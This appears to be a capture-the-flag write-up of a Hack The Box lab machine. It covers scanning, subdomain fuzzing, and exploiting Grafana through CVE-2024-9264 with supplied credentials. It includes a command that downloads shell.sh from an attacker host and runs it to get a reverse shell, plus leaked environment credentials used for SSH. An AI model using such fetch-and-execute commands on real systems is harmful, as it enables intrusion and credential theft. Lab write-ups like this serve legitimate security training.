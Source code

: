 # Machine Overview

![image](https://github.com/user-attachments/assets/0180991b-c8c3-4f71-a64f-af3461207fe0)

## Given credentials

As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

# Nmap

Command used: nmap -sC -sV -Pn -oN Planning_nmap.txt 10.10.11.68

![image](https://github.com/user-attachments/assets/84ebbdb6-24a2-4c45-bebc-ac37d19e0e5b)

Found two open ports: 22(SSH), 80(http)

port 80 redirects to http://planning.htb. Add plaaning.htb to /etc/hosts

Looking at the site nothing special in it

![image](https://github.com/user-attachments/assets/564713d3-9ae5-41a1-bcf1-1d8eb49a1582)

# Enumeration

## Fuzzing with ffuf for directory listing 

Command used: ffuf -w /usr/share/wordlists/dirbuster/directory-listing-2.3-medium.txt -u http://planning.htb/FUZZ -t 100 

![image](https://github.com/user-attachments/assets/a80ee0b8-6c09-4111-8386-5a748a1a1dc6)

Looking at the site every url endpoint end in .php trying to enumerate further with ffuf with .php extension

Command used: ffuf -w /usr/share/wordlists/dirbuster/directory-listing-2.3-medium.txt -u http://planning.htb/FUZZ.php -t 100

Still nothing was found

## Fuzzing with ffuf for subdomains

Command used: ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.planning.htb" -u http://planning.htb -t 100 -fc 301

![image](https://github.com/user-attachments/assets/1273a23f-a1fc-4bef-8372-d7eda2c08e47)

Found grafana subdomain. Add grafana.planning.htb to /etc/hosts. Looking at the site there is login form, tried using given credentials to login

![image](https://github.com/user-attachments/assets/cc970d42-e085-40c2-bf8e-2c1356410f17)

From login page i can see grafana version, seeing into it to check if it is vulnerable version or not. Found this [exploit](https://github.com/nollium/CVE-2024-9264) CVE-2024-9264

# CVE overview 

install requirements:

```
pip install requirements.txt
```

Usage:

Command execution (v11.0.0 only)

```
python3 cve.py -u [username] -p [password] -c [shell command] http://10.10.10.10:3030
```

# Exploit

Trying to use CVE-2024-9264 i ran id and pwd commands to see prove of it's work

![image](https://github.com/user-attachments/assets/c7efb8f4-7394-4b6c-912f-c617228b1a20)

Create file with shell in it

![image](https://github.com/user-attachments/assets/beb03165-bd23-49bb-b55c-12a47032475b)

Open python server to send shell file and execute it

Trying to get reverse shell

Command used: python cve-exploit.py -u admin -p 0D5oT70Fq13EvB5r -c "wget 10.10.14.23:8001/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && /tmp/shell.sh" http://grafana.planning.htb

Set up nc listener:

![image](https://github.com/user-attachments/assets/bdff5354-f884-4dea-943f-dbfb3ecd6c66)

I got a shell 

![image](https://github.com/user-attachments/assets/e57ffc94-1ea5-4066-97d7-44355e8df148)

After searching i found user enzo using env command

![image](https://github.com/user-attachments/assets/7a6104d8-82e6-407b-b225-f2fc0bcfdcde)

GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo

Got access to SSH of user enzo

![image](https://github.com/user-attachments/assets/aaa0efdf-2cc8-43f1-9fc2-fa7c2d3c4938)

Get user.txt

![image](https://github.com/user-attachments/assets/6d301107-7227-4734-b3b1-534a5d284c40)

